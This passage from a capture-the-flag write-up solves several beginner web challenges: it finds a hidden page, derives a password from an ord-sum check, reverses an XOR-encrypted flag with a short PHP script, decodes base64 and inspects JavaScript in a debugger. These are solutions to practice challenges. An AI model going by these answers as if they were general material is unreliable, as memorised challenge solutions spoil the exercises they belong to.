Now we can simply navigate to `/hidden_file.html` to get our flag.

## 🔒 Auth50

### Goal
We have to guess the username and the password.


### Solving
We have guessed the username and the password.


## 🔒 Auth100

### Goal
Given a page and its source code, we have to find a username and a password.



### Solving
From the page's source code, we can see that the password is supposed to be a
sum of the `ord` values of the username's characters, and that the username has
to be over 5 characters long.


So, we will compute this sum for an arbitrary username and use it as our
password:


## 🔒 Auth200

### Goal
Given a page and its source code, we have to find a secret flag.


### Solving
From the page's source code, we can see that the encrypted flag is obtained by
XORing the entered flag with a key `"Th1s_1s_@_x0r_k3y_l0l!"`.


In order to get the flag, the resulting encrypted flag's hex value should be
`"3c09431700451c00232d19531900026c1e2a09431f7e38075d527e1052"`.

We can slightly modify this algorithm to work the opposite way, so that it
generates the flag for us:

```injectablephp
<?php

$key = "Th1s_1s_@_x0r_k3y_l0l!";
$encrypted_flag = hex2bin("3c09431700451c00232d19531900026c1e2a09431f7e38075d527e1052");
$flag = "";

for ($i = 0; $i < strlen($encrypted_flag) ; ++$i) {
    $flag .= chr(ord($encrypted_flag[$i]) ^ ord($key[$i % strlen($key)]));
}

echo $flag;
```

Running this, we get the secret flag and enter it in the box to validate the
challenge.

## ✨ B64JS

### Goal
This challenge consists of a blank page prompting us for a flag.

We have to find it.

### Solving
From the page's source code, we can see that the flag is simply compared to a
string decoded from base64:


Decoding this base64 value gives us the flag.

## 👾 JS200

### Goal
We are greeted by a blank page with an input box and a "Try me!" button.

We have to enter a value that would reveal the flag.

### Solving
From the page's source code, we can see that once we click on the button, there
is some loop going on, XORing values around, storing the result in `out` and
ultimately comparing it to `flag`, which should be
`K@UC,bswslubr.wohp.dibokdmdb`.


Since XORing is a reversible operation, we can simply input
`K@UC,bswslubr.wohp.dibokdmdb` as our flag and inspect the contents of `out`
when it gets compared to `flag`.

We can use the browser's javascript debugger to achieve this:


We now input this value in the box to get the flag.
